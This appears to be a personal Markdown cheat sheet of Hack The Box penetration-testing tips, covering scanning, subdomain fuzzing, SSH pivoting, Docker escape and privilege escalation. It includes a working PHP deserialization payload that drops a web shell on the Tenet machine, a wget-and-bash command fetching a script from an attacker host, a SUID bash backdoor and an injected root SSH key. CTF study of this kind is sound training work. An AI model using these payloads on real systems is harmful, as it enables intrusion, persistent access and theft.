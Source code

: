 1. Always nmap scan from this command to get faster and effective results (Not for OSCP)
`nmap -sV -v -Pn 10.10.10.220`
other 
`nmap -T4 -p- -o nmap.scan [IP]`
2. Useful Repos
- Seclists
- Linpeas, winpeas
- Payload all the things
- Linux priv checker
3. https://medium.com/bugbountywriteup/things-i-learned-after-rooting-25-hack-the-box-machines-e9eada4ea6ca
4. Basic method:
 - Scanning the Machine
-  Initial Foothold
-  Getting user level privilege
-  Privilege Escalation
5. **If you find Port 135 ( MSRPC ), 139 ( NetBios-SSN ) & 445 ( Microsoft-DS )**
It is a delight to see these ports open on a windows machine. Chances are you have a **eternal blue** at your hands or other attacks that are similar to it. Boot up your msfconsole and search for these exploits. There are chances that you might end up getting root access of the machine if the exploit works.

6. Port 80 ( HTTP ) & 443 ( HTTPS )**
For the instance when only port 80 or 443 is opened on the machine then that is a clear indication that in the next few step you should try your web penetration attack vectors and tools.
The first thing that I would do is run a “dirb” directory search, if the machine is taking the load then run a fuzzing attack using “wfuzz”. Browse the website and figure out what are the functionalities that are present. Look for hints in the source-code maybe that will lead you to some revelation, some times there might be a few things that are not printed out on the webpage so be on the look out.

7. **Use each and every thing you discover about exploitation even manual exploitation.**

8. Check for the service running on it for the **config and backup** files they might have something important.
9. If you escape DOCKER then do check for the mounts to get the system files access.
https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1
10. Docker escalation from the admin account by finding the appropriate information you will get it by linpeas in **dump users** section.
11. **Subdomain Enum**: This is also an imortant part of the task 
```bash
wfuzz -w [WORDLIST] -H "Host: FUZZ.host.com" --hc 200 --hw 356 -t 100 10.10.10.101
gobuster dns -d domain.htb -w [WORDLIST] -i | tee dns_b
gobuster vhost -u horizontall.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
```
12. **SSH tunneling**
`ssh -L 5555:127.0.0.1:7777 jarvis@0.strk.ml -p 7722`
here in this one 
also then try banner grabbing by nc or any other but nc is first prefrence 
`nc 127.0.0.1 5555`
so by this one you will get the things you need (pivoting)

13. If you see any file on other subdomain then no need to go to that subdomain then jus tdont try on xyz.htb domain try on direct ip ex: tenet.htb has sator subdomain but if we want to call any file of sator subdomain then instead of going there we will go directly to respective ip and call from there cuz subdomains are virtual part of IPs.
`sator.tenet.htb/sator.php`
else
`10.10.10.223/sator.php`
_these both gives the same result_
14. Php object injection - i you find out any php object inkect then according to the source code of php file you will see unserialize function working then make the same function and then you have to make the serialise object example in [tenet HTB](https://www.hackthebox.eu/home/machines/profile/309)
		Solution is in this video and artical:
		[Xero Security](https://xerosecurity.com/wordpress/exploiting-php-serialization-object-injection-vulnerabilities/)
		[Youtube video](https://www.youtube.com/watch?v=gTXMFrctYLE)
```
<?php

class DatabaseExport
{
	public $user_file = 'users.txt'; // there is a file users.txt
	public $data = ''; // data to be written and that is called by data var

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct() // this will get executed automatically when unserialize func get called
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>


```

_Here is the source code of tenet to exploit_

```

<?php

class DatabaseExport
{
	public $user_file = 'shell.php';
	public $data = '<?php system($_GET["x3rz"]);?>';
}

$obj = new DatabaseExport;

echo htmlspecialchars(serialize($obj));

 ?>
```


_Here is the exploit to get the serialise object and then exploit._
`O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:30:"<?php system($_GET["x3rz"]);?>";}`
send this payload in arepo parameter and then you will get a shell.php on root server and then fetch the reverse shell from your system and then boom you got the shell and shell.php parameter is x3rz as you can see in exploit written to get serialise object.


15. If you arent able to get the exact version exploit then try to look for higher version than that for exploits.
16. When heading out for finding ==cve== then first look for ==all RCE== text so that it would be easy to get foothold on machine \
17. For instant access search for auto shell for CVEs or auto exploit. 
****

18. Find ==CVE number== and then ==go to github and search for all the clean possible outcomes.==
****
****
19. it is better to ==download== (and then execute) a shellscript to the target machine, and make the script do all the heavy lifting
	 - Download shell.php.
	 - Visit victim.com/shell.php

or
make a shell.sh and then wget and then bash it
`wget 10.10.14.238/shell.sh && bash shell.sh`

#### Conditions
- if your shell is uploaded then and doesnt worked in same session
- then again execute that particual shell that you put in /tmp folder by curl.

****

20. If you are out of options the always ==copy the /bin/bash to something else and give it `4755` and then do `/tmp/x3rz -p` or `echo the ssh key to authroized_keys`.==
	>echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABA......" > /root/.ssh/authorized_keys
	***Remember: Dont add htb@xyz***
	>ssh -i id_rsa root@spectra

****

21. How to get reverse shell from msf instead of nc during pivoting is if you sent the .php payload then use php/meterpreter/reverse_tcp else if anything else then search for their respective meterpreter listener.

22. When it comes to looking **bakups** do manual
	- find / -name "user" 2>/dev/null
	- find / -name "\*.conf" 2>/dev/null
	- find / -name "\*.bak" 2>/dev/null


23. If you dont find anything then do sub domain enum by gobuster.
24. then check SSL certificate cuz some of admins use register their ssl on name of their subdomains.